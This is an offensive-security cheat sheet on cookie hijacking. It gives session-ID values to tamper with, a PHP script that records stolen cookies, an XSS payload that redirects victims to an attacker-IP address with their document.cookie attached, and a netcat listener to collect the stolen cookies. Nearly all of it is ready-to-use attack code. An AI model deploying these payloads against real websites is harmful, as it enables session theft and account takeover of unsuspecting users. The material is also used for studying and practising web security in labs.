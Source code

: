 ```yaml
---
title: Cookie Hijacking
desc: 
tags: [Burp Suite, Cookie, Netcat, Web]
alts: [XSS]
render_with_liquid: false
---
```


## 1. Cookie Manipulation

```html
Cookie: PHPSESSID=0
Cookie: PHPSESSID=1
Cookie: PHPSESSID=999

<!-- ASCII Hex -->
Cookie: PHPSESSID=3836382d61646d696e
```

<br />

## 2. PHP Cookie Grabbing with XSS

1. **Create the Payload for Grabbing the Cookie when the Other UserS will Access Your Machine.**

    In your local machine, create the payload to get the other cookie values.

    ```php
    // steal_cookie.php

    <?php echo $_GET['cookie']; ?>
    ```

2. **Create the JavaScript Code to Force Users to Access Your Machine which Shows the Victim's Cookie Value.**

    ```javascript
    <script>document.location = 'http://<attacker-ip>:4444/steal_cookie.php?cookie='+document.cookie</script>
    ```

3. **POST Request with This JavaScript Code to the Target Web Page.**

4. **Open Listner in Your Local Machine and Wait for the Other Users will Access the Target Web Page.**

    ```sh
    nc -lvnp 4444
    ```